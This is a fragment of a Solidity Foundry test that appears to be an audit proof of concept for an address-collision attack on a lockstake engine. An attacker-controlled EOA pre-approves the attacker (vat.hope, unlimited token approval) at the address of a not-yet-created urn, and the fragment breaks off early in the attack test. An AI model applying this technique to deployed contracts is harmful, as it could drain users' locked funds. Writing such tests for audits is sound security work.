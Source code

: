 ```solidity
        makeAddr("user3")
    ];
    address user4 = makeAddr("user4");

    uint mkrAmount = 100_000 * 10**18;

    address eoaUrn;

    address voteDelegate2;

    address minedUrnCreator2 = makeAddr("minedUrnCreator2");
    address eoaUrn2;

    function setUp() public override {
        // Call the parent setUp
        super.setUp();

        // This urn has the same address as an EOA controlled by the attacker
        // Here we make calls from the EOA, the urn is not created yet
        eoaUrn = engine.getUrn(minedUrnCreator, 0);
        
        // Give permissions from EOA, the urn is not created yet
        vm.prank(eoaUrn); dss.vat.hope(attacker);
        vm.prank(eoaUrn); lsmkr.approve(attacker, type(uint).max);

        // Create the urn; can't use EOA after that as per EIP-3607
        vm.prank(minedUrnCreator); engine.open(0);
        // Just for convenience in tests. It's controlled by the attacker
        vm.prank(minedUrnCreator); engine.hope(eoaUrn, attacker);
        
        // Simulate several other urns
        _createUrnDepositDrawForUsers();

        // Deposit a little bit of ink
        vm.startPrank(attacker);

        deal(address(mkr), attacker, mkrAmount);
        mkr.approve(address(engine), type(uint).max);
        engine.lock(eoaUrn, mkrAmount, 0);

        vm.stopPrank();

        _changeBlockNumberForChief();

        vm.prank(makeAddr("voter")); 
        voteDelegate2 = voteDelegateFactory.create();
    }

    function _moveInkToGem() internal {
        vm.prank(attacker); dss.vat.frob(ilk, eoaUrn, eoaUrn, address(0), -int(mkrAmount), 0);
    }

    // Chief won't allow withdrawal in the same block as the deposit
    function _changeBlockNumberForChief() internal {
        vm.roll(block.number + 1);
    }

    function testAttack6SeveralLsUrnCollisions() public {
        _prepareSecondUrnCollision();

        // VD with the attacker as the owner
        vm.startPrank(attacker);
        address attackersVD = voteDelegateFactory.create();
```